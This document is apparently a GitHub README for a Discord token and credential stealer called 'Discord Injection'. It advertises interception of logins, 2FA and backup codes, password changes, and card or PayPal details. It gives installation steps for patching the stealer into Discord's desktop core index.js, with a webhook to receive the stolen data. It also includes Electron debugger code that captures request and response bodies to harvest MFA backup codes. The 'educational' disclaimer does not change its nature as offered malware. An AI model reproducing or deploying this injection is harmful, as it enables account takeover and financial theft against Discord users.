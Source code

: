<h1 align="center">
  Discord Injection 💉
</h1>

## Features
- Intercept login, register and 2FA login requests
- Intercept backup codes requests
- Intercept email/password changes requests
- Intercept credit card/paypal adding
- Logout user after initial injection
- Block usage of QR Code to login
- Block request to see devices

## Installation
- Completely close Discord
- Copy the [injection code](https://raw.githubusercontent.com/saeed0x1/discord-injection/main/injection.js) inside your Discord desktop core:

`%APPDATA%\Local\Discord\app-<app-version>\modules\discord_desktop_core-<core-version>\discord_desktop_core\index.js`

- Replace `%WEBHOOK%` by your Discord webhook. The informations intercepted will be sent this way.
- Restart Discord

## How does backup codes sniffing work ?
I use the [debugger](https://www.electronjs.org/docs/latest/api/debugger) instead of the [WebRequests instance methods](https://www.electronjs.org/docs/latest/api/web-request#instance-methods). It allow me to get request body AND response body:

```js
mainWindow.webContents.debugger.on('message', async (_, method, params) => {
    if (method !== 'Network.responseReceived') return;
    if (![200, 202].includes(params.response.status)) return;

    const responseUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getResponseBody', {
        requestId: params.requestId
    });
    const responseData = JSON.parse(responseUnparsedData.body);

    const requestUnparsedData = await mainWindow.webContents.debugger.sendCommand('Network.getRequestPostData', {
        requestId: params.requestId
    });
    const requestData = JSON.parse(requestUnparsedData.postData);
})
```
The backup codes are in the response body of `/mfa/codes-verification` request

## Disclaimer:

### Important Notice:
This injection is inteded for educational purposes only. This is provided strictly for educational and research purposes. Under no circumstances this should be used for any malicious activities, including but not limited to unauthorized access, data theft, or any other harmful actions.

### Usage Responsibility:

By accessing and using this injection, you acknowledge that you are solely responsible for your actions. Any misuse of this injection is strictly prohibited, and the creator disclaims any responsibility for how this injection is utilized. You are fully accountable for ensuring that your usage complies with all applicable laws and regulations in your jurisdiction.

### No Liability:

The creator of this injection shall not be held responsible for any damages or legal consequences resulting from the use or misuse of this software. This includes, but is not limited to, direct, indirect, incidental, consequential, or punitive damages arising out of your access, use, or inability to use this injection.

### No Support:

The creator will not provide any support, guidance, or assistance related to the misuse of this injection. Any inquiries regarding malicious activities will be ignored.

### Acceptance of Terms:

By using this injection, you signify your acceptance of this disclaimer. If you do not agree with the terms stated in this disclaimer, do not use this injection.

